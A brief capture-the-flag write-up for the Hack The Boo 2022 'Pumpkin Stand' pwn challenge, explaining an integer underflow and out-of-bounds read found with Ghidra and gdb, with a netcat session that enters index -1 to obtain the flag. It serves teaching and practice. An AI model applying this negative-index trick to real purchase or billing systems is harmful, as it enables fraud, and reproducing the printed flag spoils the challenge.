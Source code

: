 # Hack The Boo 2022

## Pumpkin Stand

> This time of the year, we host our big festival and the one who craves the pumpkin faster and make it as scary as possible, gets an amazing prize! Be fast and try to crave this hard pumpkin!
>
>  Author: N/A
>
> [`pwn_pumpkin_stand.zip`](pwn_pumpkin_stand.zip)

Tags: _pwn_

## Solution

Analyzing the code with Ghidra shows that a integer underflow is needed to hit the condition for flag reveal. There are multiple ways to approach this, one quick way is to read outside of the memory location the item costs are located. Inspection with gdb showed that ```consts[-1]``` has the value 0x5555. Using this the flag is quickly revealed.

```
$ nc 167.71.137.174 30035

                                          ##&
                                        (#&&
                                       ##&&
                                 ,*.  #%%&  .*,
                      .&@@@@#@@@&@@@@@@@@@@@@&@@&@#@@@@@@(
                    /@@@@&@&@@@@@@@@@&&&&&&&@@@@@@@@@@@&@@@@,
                   @@@@@@@@@@@@@&@&&&&&&&&&&&&&@&@@@@@@&@@@@@@
                 #&@@@@@@@@@@@@@@&&&&&&&&&&&&&&&#@@@@@@@@@@@@@@,
                .@@@@@#@@@@@@@@#&&&&&&&&&&&&&&&&&#@@@@@@@@@@@@@&
                &@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                @@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&&@@@@@@@@@&@@@@@
                @@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                @@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                .@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@
                 (@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@.
                   @@@@@@@@@@@@@@&&&&&&&&&&&&&&&@@@@@@@@@@@@@@
                    ,@@@@@@@@@@@@@&&&&&&&&&&&&&@@@@@@@@@@@@@
                       @@@@@@@@@@@@@&&&&&&&&&@@@@@@@@@@@@/

Current pumpcoins: [1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> -1

How many do you want?

>> 2

Congratulations, here is the code to get your laser:

HTB{1nt3g3R_0v3rfl0w_101_0r_0v3R_9000!}
```